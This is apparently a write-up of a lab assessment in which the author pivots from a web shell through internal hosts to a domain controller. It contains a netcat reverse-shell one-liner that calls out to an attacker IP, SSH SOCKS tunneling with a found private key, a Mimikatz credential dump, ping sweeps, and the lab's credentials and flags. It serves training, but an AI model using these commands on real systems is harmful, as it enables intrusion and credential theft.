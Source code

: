 # Skills Assessment

We are provided with a web shell, where we need to continue enumerating hosts, identify common services, and use those services/protocols to pivot into the internal networks of Inlanefreight.

### Objectives

- Start from external Pwnbox or VM and access the first system via web shell
- Use the web shell access to enumerate and pivot to an internal host
- Continue enumeration and pivoting until you reach the Inlanefreight Domain Controller and capture the associated flag
- Use any data, credentials, scripts, or other information within the environment to enable your pivoting attempts
- Grab any/all flags that can be found

### Connection Info

Foothold IP: `10.129.127.42`

## Approach

From the webshell at http://10.129.127.42, I was initially placed in `/var/www/html`, which only contained `index.php`. <br>
I proceeded to enumerate the system and found out that there are 2 files under user `webadmin`, in particular `for-admin-eyes-only` and `id_rsa`. <br>
![webadmin dir](img/webadmin.png)

The contents of `for-admin-eyes-only` contains a set of credential, `mlefay:Plain Human work!`
![mlefay credentials](img/mlefay.png)

Running `ifconfig`, the web shell has an interface with IP `172.16.5.15`. Before performing a ping sweep across `172.16.5.0/24`, I will set up a reverse shell to my machine.

On my machine, I set up a listener on port 8888 with:
```bash
sudo nc -nlvp 8888
```
Then, we can set up a reverse shell by running a reverse shell one-liner on the web shell. ([Reference](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/))<br>
On the webshell, `nc -h` tells us that the web shell is using OpenBSD Netcat. So, we run:
```bash
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.9 8888 >/tmp/f
```
![openbsd netcat](img/openbsd_nc.png)<br>
We should then see the connection on our attacker machine. Let's also set up TTY with Python with:
```bash
python3 -c "import pty; pty.spawn('/bin/bash')"
```
![connected](img/web_nc.png)<br>
Now, I performed a ping sweep across `172.16.0.24`.
```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
![ping sweep](img/ping_sweep.png)<br>
We can see that the other active host is `172.16.5.35`.

In the `webadmin` directory, there is also a `id_rsa` file, which contains a SSH private key. First, I copied `id_rsa` to my local machine. Then, I set up dynamic port forwarding with SSH and SOCKS tunneling using SSH's `-D` flag and connected to the webadmin's account on `10.129.127.42`.
```bash
ssh -D 1080 -i id_rsa webadmin@10.129.127.42
```

Now, I can use that machine as pivot and target `172.16.5.35` by adding `proxychians` before my commands.

We are able to connect to `172.16.5.35` with RDP.
```bash
proxychains xfreerdp3 /u:mlefay /p:'Plain Human work!' /v:172.16.5.35 /drive:linux,/home/<user>/Downloads
```
With this, we found a flag at `C:\Flag.txt`.
![flag](img/flag.png)<br>
The flag is `S1ngl3-Piv07-3@sy-Day`.

Let us use Mimikatz to dump credentials from memory. In an administrator PowerShell:
```text
\\tsclient\linux\mimikatz\x64\mimikatz.exe

mimikatz # privilege::debug

mimikatz # sekurlsa::logonpasswords
```
![mimikatz](img/mimikatz.png)<br>
Looking through the credentials dumped, I noticed a set of credentials for the user `vfrank`, who logged onto ACADEMY-PIVOT-D.<br>
His NT hash is `2e16a00be74fa0bf862b4256d0347e83`. <br>
His password is `Imply wet Unmasked!`.<br>
![vfrank credentials](img/vfrank.png)<br>
The vulnerable user in the network would be `vfrank`.

Next, I used `ipconfig` to find out the interfaces on this machine. I realised that it has another interface, `172.16.6.35`, which prompts me to ping sweep the `172.16.6.0/24` network. <br>
![ipconfig](img/ipconfig.png)<br>
To perform a ping sweep in PowerShell, we can do:
```pwoershell
1..254 | % {"172.16.6.$($_): $(Test-Connection -count 1 -comp 172.16.6.$($_) -quiet)"}
```
Try to perform ping sweep twice to ensure that the ARP cache is built.

With this, I found out that we can reach `172.16.6.25` and `172.16.6.45`.

Now, we can run `mstsc.exe` to RDP from `172.16.5.35` to `172.16.6.25`.<br>
After providing the credentials, `vfrank:Imply wet Unmasked!`, we successfully gained access to `172.16.6.25`.

This allowed me to obtain the flag at `C:\Flag.txt` on that computer.
![flag](img/vfrank_flag.png)<br>
The flag is `N3tw0rk-H0pp1ng-f0R-FuN`.

Opening up File Explorer, I noticed that I can access the Domain Controller.<br>
![DC](img/dc.png)<br>

Looking into "AutomateDCAdmin (Z:)", I found `C:\Flag.txt` and obtained the last flag.<br>
![DC flag](img/dc_flag.png)<br>
The flag is `3nd-0xf-Th3-R@inbow!`.